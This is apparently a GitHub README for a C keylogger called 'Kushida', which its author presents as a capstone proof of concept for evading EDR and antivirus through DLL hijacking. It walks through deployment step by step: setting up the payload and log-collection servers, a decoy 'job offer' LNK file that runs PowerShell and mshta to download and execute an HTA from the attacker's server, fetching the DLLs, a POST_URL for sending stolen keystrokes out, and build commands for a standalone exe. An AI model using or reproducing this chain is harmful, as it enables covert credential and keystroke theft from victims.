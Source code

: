 # Kushida
This is the Kushida keylogger developed for my Bachelor's capstone project, 2023. It was developed for research and academic purposes.

Kushida is a keylogger written in C. It is a proof of concept for evading modern EDR and AV programs. It successfully evades many EDR solutions by using DLL hijacking.

# Setting up the server

The server should be a Linux server and needs to have Python 3 installed, and the victim needs to have the ability to initiate a TCP connection to the server. The libraries the server uses are part of the Python standard library.

Two services need to be run for this server:
1. The HTTP file service
2. The HTTP log collection service
To run the HTTP file service
1. Download the KeyloggerFiles Folder from the repository
2. Place the KeyloggerFiles folder in your file system (anywhere is fine).
3. Change directories into the KeyloggerFiles folder and run the following command:

```bash
sudo python3 -m http.server 80
```

If you want to background the process, you press CTRL+Z, then type bg. 

Next, to set up the HTTPS log collection service, we need to download the httpsServer folder from the repository.
1. Change directories inside the downloaded the httpsServer folder
2. Generate keys if needed
3. Then, run the Python file inside the folder with:
```bash
python3 httpsServer.py
```
Keys are provided in the repository, however, you can generate your own keys with the following openssl command:
```bash
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

The services should now be running on all interfaces. The ports that are used are port 80 for the HTTP file server and 8080 for the HTTPS server. These values can be modified if needed, however, you will also need to modify the ports of the malware accordingly.

# Building and running Kushida

## Google-Job-Offer.pdf.lnk
This is the malicious "PDF" which will present a PDF to the user and install Kushida.
Replace the IP address `192.168.12.95` with your server's IP address.
```PowerShell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "& start microsoft-edge:http://192.168.12.95/Google-Job-Offer.pdf; C:\Windows\System32\mshta.exe http://192.168.12.95/FileDownloader.hta"
```

## FileDownloader.hta
This script is downloaded by the lnk
Replace the IP address `192.168.12.95` with your server's IP address.
```javascript
var fileUrl1 = "http://192.168.12.95/cscapi.dll";  
var fileUrl2 = "http://192.168.12.95/libcurl-d.dll"; 
var fileUrl3 = "http://192.168.12.95/zlibd1.dll";
```

## cscapi.dll

This is the keylogger itself. To compile this, we need vcpkg installed.

Installation instructions can be found here: [Get started with vcpkg](https://vcpkg.io/en/getting-started.html)

Then open a command prompt, change directories to the vcpkg directory you installed, and enter the following command:
```
vcpkg.exe install curl[tool]
```

You may need to reload Visual Studio after installing libcurl.

Change the `POST_URL` definition to the URL your server uses. By default, just change the IP address. 
```
#define POST_URL "https://192.168.12.95:8080/file.txt"
```

Now, in Debug 64-bit mode, build the program using Visual Studio. You can also build the program in Release, however, you would have to change the names for `libcurl-d.dll` and `zlibd1.dll` to `libcurl.dll` and `zlib1.dll` respectively. 

If you need to target a 32-bit application, compile the DLL in 32-bit mode.

Now place the programs you have built into the KeyloggerFiles folder on your server.

# Kushida in action

![Pasted image 20231130001641](https://github.com/nszeto168/kushida/assets/103395342/8e7d322b-a74d-461a-9a6a-380653d11625)

The malicious and non-malicious PDFs are nearly identical.


![Pasted image 20231130001719](https://github.com/nszeto168/kushida/assets/103395342/c3e54f42-3513-4713-9fd0-032c603afccf)

The malicious LNK file will open a PDF for the victim, making it seem legitimate.

![Pasted image 20231130002042](https://github.com/nszeto168/kushida/assets/103395342/0b9c52b0-4fd0-4efb-947c-abe7265e651e)

![Pasted image 20231130002120](https://github.com/nszeto168/kushida/assets/103395342/f96268b6-07d4-4d84-aff9-218def0392f4)


The keylogging should start. Whenever Kushida starts up and is loaded into memory, it will execute DLLMain, which will send log.txt to the HTTPS server.
![Pasted image 20231130002157](https://github.com/nszeto168/kushida/assets/103395342/3bf41847-5141-4788-9ce4-33608da8fbfd)


# Kushida Solo (standalone exe)

There is a modified version of Kushida available which functions as a standalone exe file. This exe file can be useful because certain EDRs may be triggered by DLL hijacking or the malicious LNK file. However, the DLL hijacking method tends to be a stealthier solution long term because it makes far less "noise".

There are some benefits to Kushida Solo:
- With Kushida Solo, you do not need `libcurl-.dll` nor `zlibd1.dll`.
- Kushida Solo can be compiled either as a 32-bit or a 64-bit application.
- Kushida Solo may evade some defenses more effectively (generally Kushida as a DLL is better though).

## Building Kushida Solo
![Pasted image 20231130003706](https://github.com/nszeto168/kushida/assets/103395342/db46e388-9724-4d71-b7fe-7e2fcc6d94b1)


Change Kushida's send frequency in keylogger.h. By default, it is every 5 seconds. This makes a lot of noise and is not recommended, however, it is good for testing.

Also, change the hostname definition in keylogger.cpp
![Pasted image 20231130005729](https://github.com/nszeto168/kushida/assets/103395342/545ad103-0dce-44b8-8597-4e7168f99d76)


VisualStudio's build tool does not seem to work when compiling Kushida solo, so we can compile it with cl.exe

Change directories to the `keylogger` directory, then run:
```PowerShell
cl.exe keylogger.cpp /link /OUT:kushida.exe winhttp.lib user32.lib kernel32.lib
```

Now you should have a standalone executable. The executable generates a log file in the same directory as itself.
You will still need to run the HTTPS log collection server, however, you will not need the HTTP file server when using Kushida Solo.

# Results
![image](https://github.com/nszeto168/kushida/assets/103395342/880607eb-b469-408e-bfaf-10a3e30f9f1e)

Thanks for checking out the Kushida keylogger, I hope you enjoyed it!

